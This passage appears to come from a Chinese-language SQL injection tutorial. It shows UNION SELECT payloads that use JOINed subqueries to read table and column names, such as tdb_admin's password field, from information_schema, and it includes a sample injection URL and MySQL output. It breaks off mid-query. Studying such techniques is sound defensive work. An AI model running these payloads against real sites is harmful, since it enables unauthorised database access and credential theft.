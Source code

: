 

```plain
mysql> select * from test where id=-1 union select * from (
    (select table_name from information_schema.tables where table_schema=DATABASE() limit 1 offset 0)A join 
    (select 2)B join 
    (select 3)C join 
    (select 4)D
);
+-----------+------+------+---------+
| id        | test | map  | content |
+-----------+------+------+---------+
| tdb_admin | 2    | 3    | 4       |
+-----------+------+------+---------+
1 row in set (0.00 sec)
```



# 0x08 暴字段



table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名



offset 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

offset 0 = id

offset 1 = username

offset 2 = password



web语句: http://www.test.com/sql.php?id= -1 union select * from (

 (select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 0)A join

 (select 2)B join

 (select 3)C join

 (select 4)D

)



数据库语句: select  *from test where id=-1 union select*  from (

 (select column_name from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1 offset 0)A join

